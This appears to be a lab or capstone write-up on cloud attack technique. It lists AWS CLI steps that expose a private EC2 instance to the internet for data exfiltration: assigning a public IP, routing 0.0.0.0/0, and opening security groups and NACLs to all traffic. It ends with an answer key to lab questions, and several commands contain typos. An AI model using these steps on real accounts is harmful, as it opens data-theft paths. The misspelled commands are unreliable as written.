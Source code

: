 # AWS VPC - Data Exfiltration

## Assing a public IP address on the Target Instance
1. To allocate a new public IP address to the EC2 Instance in this account.

```bash
aws ec2 allocate-address
```

2. To find the ENI for the Target machine.

```bash
aws ec2 describe-instances > instances.json
grep eni instances.json
```

![image](https://github.com/user-attachments/assets/6ab0c564-c885-4221-8c79-e6f7caf46343)

3. Assign the public IP to the ENI of the target machine.

```bash
aws ec2 assocaite-address --network-interface-id $ENI (from step 1) --allocation-id $EIPALLOC (from step 2)
```

## Change Route Table allowing a private subnet direct Internet access
- After assigning public IP address to the EC2 instance, we need to establish a route form the Internet to the subnet target.
1. Get the IGW ID

```bash
aws ec2 describe-internet-gateways
```

2. Get the Route Table ID

```bash
aws ec2 desccribe-route-tables > route-tables.json
```

3. Add the route to the Route table

```bash
aws ec2 create-route --route-table-id $ROUTE_TABLE --destination-cidr-block 0.0.0.0/0 --gateway-id $IGW
```

4. Rerun the command to confirm the new route is added.

```bash
aws ec2 describe-route-tables
```

## Modify the security group to allow access to the world
- A new route has been established but the traffic is still blocked by the Security Group. We need to modify the Security Group.

```bash
aws ec2 describe-security-groups > security-gorups.json
```

- Look for the desired Security Group and create a security group to allow all traffic.

```bash
aws ec2 authorize-security-group-ingress --protocol all -port 0-65535 --cidr 0.0.0.0/0 --group-id $SG_ID
```

## Fix the NACLs to allow access
- Now we have to modify the NACLs to allow access to the resources.

```bash
aws ec2 describe-network-acls > nacls.json
```
![image](https://github.com/user-attachments/assets/8d937e40-daf3-4d24-8e1c-ed2a5932fdaa)

- From the above output, we see that only IP addresses in CIDR 10.100.0.0/21 can communicate with this VPC. As an attacker, we want to to modify the NACLs to allow VPC to communicate with the Internet by allowing ingress and egress traffic through 0.0.0.0/0

```bash
aws ec2 create-network-acl-entry --cidr-block 0.0.0.0/0 --ingress --protocol -1 --rule-action allow --rule-number 1 --network-acl-id $ACL_ID
```
- Because NACLs is stateless, we have to define egress traffic for the VPC.

```bash
aws ec2 create-network-acl-entry --cidr-block 0.0.0.0/0 --egress --protocol -1 --rule-action allo --rule-number 1 --network-acl-id $ACL_ID
```

- Run the following command to check the new NACL entry:

```bash
aws ec2 describe-network-acls --filters Name=network-acl-id,Values=$ACL_ID 
```


# ANSWER THE QUESTION
- **What was the value of "PublicIpv4Pool" in the aws ec2 allocate-address response?**

![image](https://github.com/user-attachments/assets/e5e23817-a53e-4a79-88da-4e249bad3ad9)

-> `amazon`

- **What was the Name of the IGW?**

![image](https://github.com/user-attachments/assets/5f99dea2-599c-4245-83b7-9b7fc8141505)

-> `VPC-Capstone-IGW`

- **How many Subnets are associated with the "VPC-Capstone Private Subnet NACL"?**

-> `2`
